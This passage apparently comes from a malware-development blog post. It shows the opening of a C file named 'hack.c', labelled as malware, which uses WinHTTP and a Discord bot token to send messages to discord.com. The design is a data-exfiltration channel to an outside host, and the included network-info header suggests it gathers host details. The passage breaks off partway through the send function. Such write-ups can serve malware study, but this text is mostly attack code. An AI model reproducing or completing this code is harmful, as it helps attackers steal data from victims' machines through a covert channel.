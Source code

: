 ![malware](./images/127/2024-07-02_17-26.png){width="80%"}    

The full source is looks like this (`hack.c`):    

```cpp
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>
#include <winhttp.h>
#include <iphlpapi.h>

#define DISCORD_BOT_TOKEN "your discord bot token" // replace with your actual bot token
#define DISCORD_CHANNEL_ID "your discord channel id" // replace with the channel ID where you want to send the message

// function to send a message to discord using the discord Bot API
int sendToDiscord(const char* message) {
  HINTERNET hSession = NULL;
  HINTERNET hConnect = NULL;
  HINTERNET hRequest = NULL;

  hSession = WinHttpOpen(L"UserAgent", WINHTTP_ACCESS_TYPE_DEFAULT_PROXY, 
  WINHTTP_NO_PROXY_NAME, WINHTTP_NO_PROXY_BYPASS, 0);
  if (hSession == NULL) {
    fprintf(stderr, "WinHttpOpen. error: %d has occurred.\n", GetLastError());
    return 1;
  }

  hConnect = WinHttpConnect(hSession, L"discord.com", 
  INTERNET_DEFAULT_HTTPS_PORT, 0);
  if (hConnect == NULL) {
    fprintf(stderr, "WinHttpConnect. error: %d has occurred.\n", GetLastError());
    WinHttpCloseHandle(hSession);
    return 1;
  }

```